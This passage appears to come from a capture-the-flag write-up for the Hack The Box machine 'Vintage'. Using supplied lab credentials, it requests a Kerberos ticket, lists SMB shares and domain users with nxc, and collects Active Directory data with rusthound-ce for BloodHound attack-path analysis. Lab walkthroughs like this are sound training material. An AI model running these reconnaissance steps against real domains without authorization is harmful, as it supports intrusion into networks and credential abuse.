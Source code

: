 Let's get the TGT.

```bash
# Syncronize your date
sudo ntpdate vintage.htb
getTGT.py -dc-ip 10.10.11.45 vintage.htb/P.Rosa:Rosaisbest123
```

You need to use the machine FQDN `dc01.vintage.htb` if you're using kerberos authentication.

```bash
❯ export KRB5CCNAME=$(realpath P.Rosa.ccache)
❯ nxc smb dc01.vintage.htb --use-kcache --shares
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\P.Rosa from ccache
SMB         dc01.vintage.htb 445    dc01             [*] Enumerated shares
SMB         dc01.vintage.htb 445    dc01             Share           Permissions     Remark
SMB         dc01.vintage.htb 445    dc01             -----           -----------     ------
SMB         dc01.vintage.htb 445    dc01             ADMIN$                          Remote Admin
SMB         dc01.vintage.htb 445    dc01             C$                              Default share
SMB         dc01.vintage.htb 445    dc01             IPC$            READ            Remote IPC
SMB         dc01.vintage.htb 445    dc01             NETLOGON        READ            Logon server share
SMB         dc01.vintage.htb 445    dc01             SYSVOL          READ            Logon server share
```

Nothing special going on here, just bunch of default shares.

### Users

Don't forget to retrieve the user list from this machine, it might be useful later.

```bash
nxc smb dc01.vintage.htb --use-kcache --users | awk '{print $5}' | tail -n +4 | head -n -1 > users.txt
```

### bloodhound

I will use `rusthound-ce` to remotely collect information from the domain.

```bash
rusthound-ce -d vintage.htb -f dc01.vintage.htb -k -z -c All
```

Now load those json files into `bloodhound` and start analyzing potential attack paths.

<p align="center">
  <img src="/machines/vintage/pre2k_fs01.png" alt="Pre-Windows 2000 computers" />
</p>

Unfortunately, `P.Rosa` doesn't have any `Outbound Object Control` or belongs to interesting groups.
But `PRE-WINDOWS 2000 COMPATIBLE ACCESS` group has a computer account as its member which is interesting.
